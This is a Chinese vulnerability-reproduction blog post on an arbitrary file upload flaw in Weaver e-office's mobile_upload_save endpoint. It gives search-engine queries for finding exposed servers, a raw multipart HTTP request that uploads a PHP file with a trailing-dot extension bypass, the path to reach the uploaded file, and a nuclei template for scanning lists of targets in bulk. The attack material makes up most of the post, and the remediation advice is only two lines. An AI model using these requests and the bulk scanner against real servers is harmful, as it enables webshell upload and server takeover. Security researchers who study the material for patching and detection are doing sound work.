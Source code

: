 #  【漏洞复现 | 含批量POC】泛微e-office-mobile_upload_save 任意文件上传漏洞   
小明同学  小明信安   2024-06-16 09:00  
  
**0x01 免责声明**  
  
disclaimer  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。信息及工具收集于互联网，真实性及安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
**0x02 漏洞介绍**  
  
Vulnerability introduction  
  
    泛微e-officemobile_upload_save接口存在任意文件上传漏洞接口存在任意文件上传漏洞，攻击者可通过该漏洞上传任意文件到服务器上，包括木马后门文件，导致服务器权限被控制。  
  
**0x03 搜索语法**  
  
Search for syntax  
  
- Fofa：  
  
  
```
body="/newplugins/js/pnotify/jquery.pnotify.default.css"
```  
  
- Hunter  
  
  
```
body="/newplugins/js/pnotify/jquery.pnotify.default.css"
```  
  
- Quake  
  
  
```
body="/newplugins/js/pnotify/jquery.pnotify.default.css"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSJvqt9soChab18HOg5L1vgwJ1VibibP8CjNotrBfl0l9gZfKtTU38qL3Pbiax7jj5aGR4libiaTwLPiaVGg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**0x04 漏洞复现**  
  
Request packets  
  
- 请求接口上传任意文件  
  
```
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host: your-ip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
Content-Length: 350

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="upload_quwan"; filename="1.php."
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSKsmQmPt7f1Nx2XqlS2lBZ2C5ibfHqjaAYvBBMdFKsFUkBa45Ege3681fNaoKSLcvkJ393ORTpAuJQ/640?wx_fmt=png&from=appmsg "")  
- 文件访问地址为回显中的/attachment/xxxxxx/1.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSKsmQmPt7f1Nx2XqlS2lBZ20ibJpHqVADeS4GQT2CNiacPrGZGSX0ed8w4mU5N6o5UPxAVz3SxtYmWQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**0x05 nuclei POC**  
  
nuclei POC  
  
- Nuclei 批量检测POC  
  
- 所用方法nuclei.exe -l 网址文件.txt -t POC.yaml  
  
```
id: Weaver_e-office_mobile_upload_save_fileupload

info:
  name: Weaver_e-office_mobile_upload_save_fileupload
  author: security-xm
  severity: high
  description: 泛微e-officemobile_upload_save接口存在任意文件上传漏洞接口存在任意文件上传漏洞
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true

http:
- raw:
  - |
    @timeout: 30s
    POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
    Host: {{Hostname}}
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
    Connection: close
    Content-Length: 204

    ------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
    Content-Disposition: form-data; name="upload_quwan"; filename="1.php."
    Content-Type: image/jpeg

    <?php phpinfo();?>
    ------WebKitFormBoundarydRVCGWq4Cx3Sq6tt

  max-redirects: 3
  matchers-condition: and
  matchers:
    - type: word
      part: body
      words:
        - attachment

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSKsmQmPt7f1Nx2XqlS2lBZ2pibsvW2cuUwocBkweRgClTEM6SU5jMAMCMC2Rz8xEmgcUooCBNz3nIA/640?wx_fmt=png&from=appmsg "")  
  
  
**0x07 修复建议**  
  
Remediation recommendations  
  
- 在Web应用防火墙中添加接口临时黑名单规则  
  
- 联系厂商打补丁或升级版本。  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/WfB6o4vicwSISMoBvibVByMUlExr9ibqmnwWAbwiaNjO1XPzIHNbfEIfgfSHeJqDSHqIw8pXKSdgic1vSia8HhntX5lw/640?wx_fmt=gif&from=appmsg "")  
  
  
